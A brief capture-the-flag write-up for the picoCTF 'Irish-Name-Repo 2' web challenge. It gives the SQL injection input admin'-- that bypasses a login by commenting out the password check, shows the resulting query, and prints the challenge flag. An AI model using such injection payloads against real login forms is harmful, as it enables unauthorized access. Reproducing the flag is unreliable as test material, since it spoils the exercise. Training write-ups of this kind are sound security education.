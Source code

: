 # Irish-Mame-Repo 2 - 350 points
Web_Exploitation

## Description:
> There is a website running at https://2019shell1.picoctf.com/problem/60775/. Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login!

## Hint:
> The password is being filtered.

## Solving:

The page seems to be almost identical to Irish-Name-Repo 1, except that using a simple SQL attack brings up a page with 'SQLi detected'. Using the hint that the password is santised and some educated guessing that the username would be something like 'admin' we can try to comment out the password by using
```c
admin'--
```
This debugs to:
```c
SELECT * FROM users WHERE name='admin'--' AND password=' '
### Flag: 

```c
picoCTF{m0R3_SQL_plz_015815e2}
```
